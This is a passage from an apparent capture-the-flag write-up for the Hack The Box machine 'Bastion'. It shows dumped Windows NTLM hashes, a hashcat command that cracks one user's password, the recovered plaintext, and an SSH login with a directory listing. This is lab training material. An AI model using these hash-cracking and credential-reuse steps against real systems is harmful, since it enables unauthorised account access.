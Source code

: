 > Hashes that begin with "`31d6`" are hashes of empty string which means that the account is either disabled or it has no password. This is why **Administrator** and **Guest** password hashes are the same. 

At this point, we can try to crack them using `hashcat` or perfom a **Pass The Hash**.

## Foothold

### Cracking NTLM hash using `hashcat`

{% highlight bash %}
$ cat > hashes.txt
Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
L4mpje:1000:aad3b435b51404eeaad3b435b51404ee:26112010952d963c8dc4217daec986d9:::
^C
$ hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt
...
26112010952d963c8dc4217daec986d9:bureaulampje 
...
{% endhighlight %}

### SSH

The `nmap` scan shows us earlier that an SSH service was running. So let's try to log in:

![](/assets/img/htb/machines/windows/easy/bastion/ssh.png)

With `dir /a` we can list all files (included hidden ones):

{% highlight cmd %}
l4mpje@BASTION C:\Users\L4mpje>dir /a                                                                                                                        
 Volume in drive C has no label.                                                                                                                             
 Volume Serial Number is 0CB3-C487                                                                                                                           
                                                                                                                                                             
 Directory of C:\Users\L4mpje                                                                                                                                
                                                                                                                                                             
15-08-2021  03:04    <DIR>          .                                                                                                                        
15-08-2021  03:04    <DIR>          ..                                                                                                                       
22-02-2019  14:50    <DIR>          AppData                                                                                                                  
22-02-2019  14:50    <JUNCTION>     Application Data [C:\Users\L4mpje\AppData\Roaming]                                                                       
22-02-2019  16:26    <DIR>          Contacts                                                                                                                 
22-02-2019  14:50    <JUNCTION>     Cookies [C:\Users\L4mpje\AppData\Local\Microsoft\Windows\INetCookies]                                                    
22-02-2019  16:27    <DIR>          Desktop                                                                                                                  
22-02-2019  16:26    <DIR>          Documents                                                                                                                
22-02-2019  16:26    <DIR>          Downloads                                                                                                                
22-02-2019  16:26    <DIR>          Favorites                                                                                                                
15-08-2021  02:53            16.974 jaws-enum.ps1                                                                                                            
22-02-2019  16:26    <DIR>          Links                                                                                                                    
22-02-2019  14:50    <JUNCTION>     Local Settings [C:\Users\L4mpje\AppData\Local]                                                                           
22-02-2019  16:26    <DIR>          Music                                                                                                                    